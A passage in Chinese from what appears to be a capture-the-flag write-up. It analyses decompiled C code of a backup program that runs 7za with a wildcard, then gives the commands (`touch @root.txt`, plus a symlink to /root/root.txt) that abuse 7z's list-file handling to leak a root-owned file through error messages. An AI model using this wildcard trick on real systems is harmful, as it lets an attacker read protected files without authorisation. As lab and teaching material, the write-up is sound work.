 ```c
    if ( v4 == 1 )
    {
      backupWebContent();
    }
    else
    {
      if ( v4 != 2 )
        goto LABEL_9;
      backupMysqlData();
    }
  }
  return 0;
}
```

发现 `resetAdminPassword` 是用来消遣你的

```c
int resetAdminPassword()
{
  return puts("Password has been reset.");
}
void backupWebContent()
{
  if ( chdir("/var/www/html") )
    perror("Error changing working directory to /var/www/html");
  else
    system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *");
}
int backupMysqlData()
{
  return system("/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql");
}
```

来分析一下这句命令

```bash
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

`7za` 是 7zip 的命令行版本，`a` 是添加文件到压缩包，位置为 `/var/backups/project.zip`，`-tzip` 指定压缩格式为 zip，`-snl` 将符号链接作为链接存储，即不是压缩其指向的内容，`-mmt` 是多线程压缩，`--` 结束选项，`*` 压缩所有文件。
[Hacktricks](https://book.hacktricks.xyz/v/cn/linux-hardening/privilege-escalation/wildcards-spare-tricks) 提到了利用这个的 trick，在 7z 中，`@` 开头的文件名会被当作文件列表，所以如下命令执行的时候 7z 会把 `root.txt` 当作文件列表，然后尝试对 `root.txt` 里列出的文件进行压缩

```bash
cd /var/www/html
touch @root.txt
ln -s /root/root.txt root.txt
```

然后再执行备份命令，就能在报错信息看到 root.txt 的内容了。
